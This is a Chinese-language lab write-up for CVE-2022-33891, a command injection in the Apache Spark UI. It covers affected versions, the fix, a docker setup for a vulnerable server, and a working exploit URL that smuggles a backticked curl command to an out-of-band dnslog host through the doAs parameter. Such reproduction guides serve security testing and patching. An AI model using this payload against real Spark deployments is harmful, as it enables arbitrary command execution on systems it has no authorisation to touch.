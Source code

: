 # CVE-2022-33891 Apache Spark shell 命令注入漏洞

​	Apache Spark 是专为大规模数据处理而设计的快速通用的计算引擎。Spark是UC Berkeley AMP lab (加州大学伯克利分校的AMP实验室)所开源的类Hadoop MapReduce的通用并行框架 Spark，拥有Hadoop MapReduce所具有的优点；但不同于MapReduce的是——Job中间输出结果可以保存在内存中，从而不再需要读写HDFS，因此Spark能更好地适用于数据挖掘与机器学习等需要迭代的MapReduce的算法。

​	Apache Spark UI 提供了通过配置选项spark.acls.enable 启用ACL 的可能性。通过身份验证过滤器，可以检查用户是否具有查看或修改应用程序的访问权限。如果启用 ACL，则 HttpSecurityFilter 中的代码路径可以允许某人通过提供任意用户名来执行模拟。然后，恶意用户可能能够访问权限检查功能，该功能最终会根据他们的输入构建 Unix shell 命令并执行它。这将导致 Spark 当前运行的用户执行任意 shell 命令。

**漏洞影响版本**

This affects Apache Spark versions 3.0.3 and earlier, versions 3.1.1 to 3.1.2, and versions 3.2.0 to 3.2.1.

**修复方式**

升级到 Apache Spark 3.1.3、3.2.2 或 3.3.0 或更高版本



## 漏洞环境

执行如下命令启动一个spark-v3.1.1-web服务器：

```
docker compose up -d
```



服务启动后，访问`http://your-ip:4040`即可查看到spark主页。

## 漏洞复现

访问url路径

```
http://your-ip:4040/jobs/?doAs=`curl xxxx.dnslog.cn`
```

"``"内即为执行的命令

![](https://img-blog.csdnimg.cn/direct/b68ed3b843904d639fbf1be18cda8770.png)

![](https://img-blog.csdnimg.cn/direct/8607324cc29e463394ad72cbf6eae607.png)